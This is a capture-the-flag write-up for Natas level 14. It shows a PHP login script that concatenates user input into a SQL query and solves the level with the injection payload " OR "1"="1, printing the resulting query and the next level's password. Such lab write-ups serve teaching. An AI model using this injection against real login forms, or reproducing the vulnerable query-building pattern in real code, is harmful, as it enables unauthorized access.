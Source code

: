 # Writeup level 14
We have a login form as the start page with the input fields username and password.

**Source Code**

```php
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>
```

This looks like a simple **SQL-Injection**. We can see that the query is getting concatenated with our input. So we can easily inject our own SQL statement since there is nothing protecting it. Also we have a debug option which we can use to see how our query looks like.

**Exploit**  
In this case we can simply use **natas15** as the **username** and our password is going to be the injection point.  
By using: **" OR "1"="1** as the **password** we can turn the condition to true without knowing the password.  
Query that gets executed:  
```sql
SELECT * from users where username="natas15" and password="" OR "1"="1"
```

The password is:  
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

